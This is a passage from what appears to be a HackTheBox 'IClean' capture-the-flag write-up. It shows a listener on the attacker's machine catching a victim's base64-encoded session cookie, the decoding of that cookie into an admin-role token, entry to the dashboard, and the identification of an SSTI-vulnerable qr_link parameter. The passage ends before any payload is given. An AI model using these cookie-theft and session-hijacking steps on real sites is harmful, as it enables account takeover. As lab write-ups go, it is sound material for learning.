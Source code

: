 A simple python web server was used to intercept the request made by the victim. The GET data contains some base64 encoded data which looks promising.

```
┌──(kali㉿kali)-[~/hackthebox/iclean]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.12 - - [08/Apr/2024 21:31:50] code 404, message File not found
10.10.11.12 - - [08/Apr/2024 21:31:50] "GET /c2Vzc2lvbj1leUp5YjJ4bElqb2lNakV5TXpKbU1qazNZVFUzWVRWaE56UXpPRGswWVRCbE5HRTRNREZtWXpNaWZRLlpoUVJsdy5oY0pxRHVrOGxjakRiY0dHMy1WWlB4Mkl6OEE= HTTP/1.1" 404 -
```

# Decoding Cookie

Decoding the data revealed a session cookie. The cookie is a JWT which has a role variable. The role variable has a value of an MD5 hash which when reversed equals the string admin.

### Convert from base64 to plaintext
```
┌──(kali㉿kali)-[~/hackthebox/iclean]
└─$ echo c2Vzc2lvbj1leUp5YjJ4bElqb2lNakV5TXpKbU1qazNZVFUzWVRWaE56UXpPRGswWVRCbE5HRTRNREZtWXpNaWZRLlpoUVJsdy5oY0pxRHVrOGxjakRiY0dHMy1WWlB4Mkl6OEE= | base64 -d
session=eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.ZhQRlw.hcJqDuk8lcjDbcGG3-VZPx2Iz8A 
```
### JWT Decode
```json
{
  "role": "21232f297a57a5a743894a0e4a801fc3"
}
```
### Reverse MD5 value
```
21232f297a57a5a743894a0e4a801fc3 = admin
```

# Accessing Dashboard - http://capiclean.htb/dashboard

Adding the cookie into the browsers storage allowed access to the dashboard. The dashboard has a number of features which have been listed below. After extensive testing with mostly SSTI payloads I could only find one endpoint that was vulnerable.

### Dashboard Features

* Generate Invoice - Not vulnerable
* Generate QR - Vulnerable to SSTI
* Edit Services - Not vulnerable
* Quote Requests - Not vulnerable
### 

# SSTI - Generate QR
The `qr_link` parameter of  this endpoint was vulnerable to SSTI. Below is an example request.
